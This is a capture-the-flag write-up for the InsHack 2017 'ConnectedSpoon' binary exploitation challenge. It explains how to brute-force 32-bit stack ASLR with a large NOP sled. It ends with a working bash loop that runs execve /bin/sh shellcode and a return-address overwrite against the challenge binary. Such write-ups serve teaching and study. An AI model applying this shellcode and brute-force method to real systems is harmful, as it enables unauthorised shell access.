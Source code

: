 ```yaml
---
title: "ConnectedSpoon | InsHack 2017"
categories: ["pwn"]
tags: ["ASLR"]
Points: 150
Solves: 42
---
```


Who new bruteforcing ASLR on 32 bit was so easy!

## Checksec
```
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX disabled       (<- we CAN use shellcode)
PIE:      No PIE
ASLR:     ENABLED           (<- we CANNOT reliably know where the stack is)
```

## Solution
This is very similar to crazy-minitel, so I will assume you have read that [writeup](CrazyMinitel), and just focus on what's new: `ASLR`! One other change from crazy-minitel is that we have a larger buffer, meaning we can have a bigger nop sled.

With that in mind, lets just bruteforce ASLR. From running the program in gdb what I found that:
 - The first byte `\xbf` never changed. So that's **8 bits** we don't need to guess.
 - We have a NOP SLED of around 2000 bytes, and, since `2^11 = 2048`, we can get another free **11 bits**.

This leaves use with `32-8-11 = 13bits` to bruteforce. This would mean on average around **8192 attempts** to guess correctly the stack value, which would certainly be doable, but I got a shell after only ~75 trys, which means either my math is wrong or I was just very lucky.

I launched this little script to bruteforce the ASLR, went to eat something, and when I got back I had a shell waiting for me. :)
```bash
while :
do
    ~/vuln $(python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'.rjust(1950, '\x90') + 'A'*(2012-1950) + '\xb0\xba\xad\xbf'")
done
```